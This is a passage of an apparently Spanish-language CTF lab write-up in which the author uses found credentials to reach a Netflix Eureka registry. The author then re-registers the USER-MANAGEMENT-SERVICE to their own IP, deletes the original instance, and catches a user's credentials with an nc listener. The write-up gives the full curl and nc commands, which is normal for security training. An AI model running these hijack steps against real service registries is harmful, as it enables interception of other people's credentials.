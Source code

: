 Con estas nuevas credenciales podremos autenticarnos en el puerto `8761`, donde se ejecuta el servicio `Eureka`

~~~ bash
curl -u EurekaSrvr:0scarPWDisTheB3st http://10.10.11.66:8761/
~~~

La metodología que seguiremos para abusar de este servicio consistirá en sobreescribir el mircro-servicio `USER-MANAGEMENT-SERVICE`, haciendo referencia a nuestra IP, podemos encontrar detalles de explotación y explicación técnica en el siguiente [artículo](https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka)

![eureka-exploitation](https://engineering.backbase.com/2023/05/16/hacking-netflix-eureka/assets/dist/lg/attack-vector2.png)

Comenzaremos registrando el servicio `USER-MANAGEMENT-SERVICE` para que apunte a nuestra IP

~~~ bash
curl -X POST http://EurekaSrvr:0scarPWDisTheB3st@10.10.11.66:8761/eureka/apps/USER-MANAGEMENT-SERVICE  -H 'Content-Type: application/json' -d '{ 
  "instance": {
    "instanceId": "test",
    "hostName": "10.10.14.132",
    "app": "USER-MANAGEMENT-SERVICE",
    "ipAddr": "10.10.14.132",
    "vipAddress": "USER-MANAGEMENT-SERVICE",
    "status": "UP",
    "port": {   
      "$": 8081,
      "@enabled": "true"
    },                 
    "dataCenterInfo": {                                                  
      "@class": "com.netflix.appinfo.InstanceInfo$DefaultDataCenterInfo",
      "name": "MyOwn"
    }
  }
}'
~~~

Eliminaremos el mircro-servicio original para asegurarnos que `USER-MANAGEMENT-SERVICE` realmente apunte hacia nuestro registro

~~~ bash
curl -X DELETE http://EurekaSrvr:0scarPWDisTheB3st@10.10.11.66:8761/eureka/apps/USER-MANAGEMENT-SERVICE/localhost:USER-MANAGEMENT-SERVICE:8081
~~~

Para recibir la solicitud POST, basta con ponerse a la escucha por el puerto que usa el micro servicio `USER-MANAGEMENT-SERVICE`

~~~ bash
nc -lvnp 8081
listening on [any] 8081 ...
~~~

Al cabo de unos momentos, recibiremos la solicitud HTTP a nuestro servicio malicioso, donde el usuario `miranda.wise` se autentica enviando sus credenciales
